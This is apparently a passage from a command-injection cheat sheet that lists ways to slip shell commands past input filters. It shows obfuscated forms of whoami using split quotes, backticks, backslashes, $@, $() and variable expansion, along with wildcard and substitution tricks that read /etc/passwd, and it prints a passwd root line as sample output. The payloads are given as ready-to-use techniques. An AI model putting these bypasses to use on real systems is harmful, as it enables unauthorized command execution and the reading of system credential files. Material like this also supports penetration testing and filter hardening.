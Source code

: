 ```powershell
root:x:0:0:root:/root:/bin/bash
```

### Bypass With Single Quote

```powershell
w'h'o'am'i
wh''oami
'w'hoami
```

### Bypass With Double Quote

```powershell
w"h"o"am"i
wh""oami
"wh"oami
```

### Bypass With Backticks

```powershell
wh``oami
```

### Bypass With Backslash and Slash

```powershell
w\ho\am\i
/\b\i\n/////s\h
```

### Bypass With $@

`$0`: Refers to the name of the script if it's being run as a script. If you're in an interactive shell session, `$0` will typically give the name of the shell.

```powershell
who$@ami
echo whoami|$0
```


### Bypass With $()

```powershell
who$()ami
who$(echo am)i
who`echo am`i
```

### Bypass With Variable Expansion

```powershell
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```
